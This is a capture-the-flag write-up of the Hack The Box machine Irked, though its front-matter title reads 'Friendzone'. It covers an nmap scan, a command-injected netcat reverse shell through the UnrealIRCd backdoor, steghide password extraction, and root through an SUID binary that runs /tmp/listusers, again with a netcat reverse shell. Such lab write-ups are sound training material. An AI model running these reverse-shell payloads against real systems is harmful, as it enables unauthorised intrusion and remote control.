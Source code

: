 ```yaml
---
layout: post
title: "Friendzone"
categories: HTB
---
```


#### Nmap Scan
```
# Nmap 7.80 scan initiated Sun Jul 26 16:56:54 2020 as: nmap -sV -sC -p- -oA allports_nmap_scan 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.014s latency).
Not shown: 65528 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38349/udp   status
|   100024  1          46700/tcp6  status
|   100024  1          48826/udp6  status
|_  100024  1          57061/tcp   status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
57061/tcp open  status  1 (RPC #100024)
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel


Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```

<hr>

#### Initial Access

http found on tcp/80 - Apache httpd 2.4.10 ((Debian))<br>
    Not much on the website apart from a picture and some text about IRC. It's safe to assume that there is some IRC program running.<br>
![](\images\htb\irked\1.png)<br><br>

irc found on tcp/6697 - UnrealIRCd - Unreal3.2<br>
Searchsploit for unrealircd returned the following results<br>

![](\images\htb\irked\2.png)<br><br>

Unsuccessful at getting 13853.pl script to work. After looking at 13853.pl script noticed the payloads had (“AB;” + payload) in all of them.<br>

![](\images\htb\irked\3.png)<br><br>

Decided to try a bash reverse shell while connected to the service with netcat as it was going through it's checks, which then got a reverse shell.<br>

`AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.22 8888 >/tmp/f`<br>

![](\images\htb\irked\4.png)<br><br>

<hr>

#### User
In user djmardov documents folder there is a hidden `.backup` file<br>

![](\images\htb\irked\5.png)<br><br>

Contents contain a password<br>
`UPupDOWNdownLRlrBAbaSSss`<br>
![](\images\htb\irked\6.png)<br><br>

Now have a password and a hint “steg backup pw”, steg refers to steganography<br>

On the webpage save the image and run steghide against it to see if there is any embedded objects in it.<br>

`steghide --info irked.jpg`<br>

![](\images\htb\irked\7.png)<br><br>

There is an embedded file named pass.txt<br>

To extract the embedded file run steghide with extract<br>

`steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss`<br>

![](\images\htb\irked\8.png)<br><br>

Contents of the pass.txt file is the password for djmardov<br>

![](\images\htb\irked\9.png)<br><br>

<hr>

#### Root

Found an interesting file with the SUID bit set - /usr/bin/viewuser<br>

`find / -perm -u=s -type f 2> /dev/null`<br>

![](\images\htb\irked\10.png)<br><br>

After running it complains about a missing file /tmp/listusers<br>

![](\images\htb\irked\11.png)<br><br>

Created the file in /tmp and ran viewuser again<br>

`echo test > listusers`<br>

![](\images\htb\irked\12.png)<br><br>

Get a permission error<br>

`chmod 777 listusers`<br>

After running viewuser again, it successfully ran, but nothing happend to the listusers file. Decided to see if it ran commands from this file to see what happend<br>
`echo whoami > listusers`<br>

We have got code execution<br>

![](\images\htb\irked\13.png)<br><br>

Used netcat in listusers file to get a reverse shell<br>

`echo ‘nc 10.10.14.22 8899 -e “/bin/bash”’ > listusers`<br>

Should now be root<br>

![](\images\htb\irked\14.png)
